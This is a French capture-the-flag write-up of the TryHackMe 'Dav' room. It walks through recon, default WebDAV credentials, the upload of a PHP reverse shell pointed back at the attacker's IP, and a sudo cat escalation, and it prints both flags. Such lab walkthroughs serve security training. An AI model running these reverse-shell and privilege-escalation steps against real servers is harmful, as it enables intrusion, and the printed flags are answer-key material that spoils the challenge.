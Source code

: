 # Dav #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.220.213 dav.thm' >> /etc/hosts"
```

On met un nom de domaine à notre ip pour simplifier les démarches.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A dav.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-18 14:10 CEST
Nmap scan report for dav.thm (10.10.220.213)
Host is up (0.044s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/18%OT=80%CT=1%CU=33834%PV=Y%DS=2%DC=T%G=Y%TM=60F41A3
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   33.71 ms 10.9.0.1
2   34.09 ms dav.thm (10.10.220.213)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.13 seconds
```

On remarque ici plusieurs chose :  
-Le service http sur le port 80 est disponible.  
-Que la page principale est la page par défaut d'apache.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://dav.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dav.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/18 14:17:23 Starting gobuster in directory enumeration mode
===============================================================
/webdav               (Status: 401) [Size: 454]
/server-status        (Status: 403) [Size: 295]
                                               
===============================================================
2021/07/18 14:31:33 Finished
===============================================================
```

On repère un lien, regardons-le.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ w3m http://dav.thm/webdav/
Password for webdav: 
```

Pour le nouveau lien on nous demande des identifiants, ont ne les a pas.
En faisant une recherche sur internet on trouve les identifiants.
Non d'utilisateur : wampp
Mot de passe      : xampp

```bash
Authentication required for webdav on server `dav.thm':
Username: wampp
Password: 
dav:/webdav/> 
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  août 26  2019
dav:/webdav/> get passwd.dav
Downloading `/webdav/passwd.dav' to passwd.dav:
Progress: [=============================>] 100,0% of 44 bytes succeeded.
dav:/webdav/> exit
Connection to `dav.thm' closed.
tim@kali:~/Bureau/tryhackme/write-up$ cat passwd.dav 
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Avec cadaver on récupère un fichier.  
Dans le fichier il y un hash.  
J'arrive pas à casser le hash avec john ou hashcat.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2021-07-18 15:39:43--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Résolution de raw.githubusercontent.com (raw.githubusercontent.com)… 185.199.110.133, 185.199.109.133, 185.199.111.133, ...
Connexion à raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 5491 (5,4K) [text/plain]
Sauvegarde en : « php-reverse-shell.php »

php-reverse-shell.php                                       100%[=========================================================================================================================================>]   5,36K  --.-KB/s    ds 0s      

2021-07-18 15:39:43 (23,6 MB/s) — « php-reverse-shell.php » sauvegardé [5491/5491]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i "s/127.0.0.1/10.9.228.66/g" php-reverse-shell.php 
tim@kali:~/Bureau/tryhackme/write-up$ cadaver http://dav.thm/webdav/
Authentication required for webdav on server `dav.thm':
Username: wampp
Password: 
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100,0% of 5493 bytes succeeded.
```

On télécharge un reverse-shell en php.  
On modifie l'ip par la notre.  
On se connect avec cadaver pour transferer le reverse-shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le sur le port 1234. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ w3n http://dav.thm/webdav/php-reverse-shell.php
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
$ whoami
www-data
$ ls /home/
merlin
wampp
$ cat /home/merlin/user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

A partir du shell, dans le répertoire on trouve deux utilisateurs wampp et merlin. 
Quand on regarde le fichier user.txt dans merlin on a notre flag.  

La réponse est : 449b40fe93f78a938523b7e4dcd66d2a 

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

En regardant dans la configuration sudo, on remarque que /bin/cat peut être exécuter dans mot de passe.  
Avec cat, on afficher le contenu du fichier root.txt.   

La réponse est : 101101ddc16b0cdf65ba0b8a7af7afa5  